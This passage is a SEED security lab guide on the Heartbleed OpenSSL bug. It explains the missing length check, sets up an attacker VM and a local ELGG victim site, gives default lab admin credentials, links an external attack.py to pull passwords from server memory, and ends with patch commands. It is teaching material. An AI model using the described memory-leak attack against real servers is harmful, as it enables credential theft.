That's how it's supposed to work. The Heartbleed vulnerability arose because OpenSSL's implementation of the heartbeat functionality was missing a crucial safeguard: the computer that received the heartbeat request never checked to make sure the request was actually as long as it claimed to be. So if a request said it was 40 KB long but was actually only 20 KB, the receiving computer would set aside 40 KB of memory buffer, then store the 20 KB it actually received, then send back that 20 KB plus whatever happened to be in the next 20 KB of memory. That extra 20 KB of data is information that the attacker has now extracted from the web server.

## Enviroment Setup

In this lab, we need to set up two VMs: one called attacker machine and the other called victim server.We use the pre-built
<a href="https://seedsecuritylabs.org/lab_env.html">SEEDUbuntu12.04</a> VM. The VMs need to use the NAT-Network adapter for
the network setting. This can be done by going to the VM settings, picking Network, and clicking the Adaptor tag to switch
the adapter to NAT-Network. Make sure both VMs are on the same NAT-Network.

The website used in this attack can be any HTTPS website that uses SSL/TLS. However, since it is
illegal to attack a real website, we have set up a website in our VM, and conduct the attack on our own VM. We use an open-source social network application called ELGG, and host it in the following URL: https://www.heartbleedlabelgg.com.

## Launch the attack

The actual damage of the Heartbleed attack depends on what kind of information
is stored in the server memory. If there has not been much activity on the server, you will not be able to steal
useful data. Therefore, we need to interact with the web server as legitimate users. Let us do it as the administrator,
and do the followings:item Visit https://www.heartbleedlabelgg.com from your browser.

- Visit https://www.heartbleedlabelgg.com from your browser.


- Login as the site administrator. (User Name:admin; Password:seedelgg)


- Add Boby as friend.


- Send Boby a private message.


After you have done enough interaction as legitimate users, you can launch the attack and see what information you can
get out of the victim server.The code that we use is called <a href="http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Networking/Heartbleed/attack.py">attack.py</a> which was originally written by Jared Stafford.


You may need to run the attack code multiple times to get useful data. Try and see whether you can get the following
information from the target server:

- User name and password.


- Admin Activity


To fix the Heartbleed vulnerability, the best way is to update the OpenSSL library to the newest version.This can be
achieved using the following commands:

- sudo apt-get update
- sudo apt-get upgrade
